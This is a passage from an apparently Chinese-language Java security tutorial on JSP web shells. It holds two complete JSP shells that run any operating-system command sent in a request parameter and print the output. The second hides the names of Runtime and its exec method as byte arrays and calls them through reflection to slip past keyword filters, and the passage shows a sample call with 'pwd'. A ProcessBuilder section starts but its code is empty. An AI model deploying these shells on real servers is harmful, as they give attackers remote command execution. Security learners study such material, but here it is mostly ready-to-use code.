 ```java
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
    InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;

    while ((a = in.read(b)) != -1) {
        baos.write(b, 0, a);
    }

    out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
%>
```
> 来源于javasec

<a name="fdovE"></a>
#### 过滤
过滤Runtime<br />使用反射代替
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
String str = request.getParameter("str");

// 定义"java.lang.Runtime"字符串变量
String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});

// 反射java.lang.Runtime类获取Class对象
Class<?> c = Class.forName(rt);

// 反射获取Runtime类的getRuntime方法
Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));

// 反射获取Runtime类的exec方法
Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}), String.class);

// 反射调用Runtime.getRuntime().exec(xxx)方法
Object obj2 = m2.invoke(m1.invoke(null, new Object[]{}), new Object[]{str});

// 反射获取Process类的getInputStream方法
Method m = obj2.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
m.setAccessible(true);

// 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
Scanner s = new Scanner((InputStream) m.invoke(obj2, new Object[]{})).useDelimiter("\\A");
String result = s.hasNext() ? s.next() : "";

// 输出命令执行结果
out.println(result);
%>
```
命令参数是str，如：reflection-cmd.jsp?str=pwd，程序执行结果同上。
<a name="np3or"></a>
### ProcessBuilder命令执行
```java
```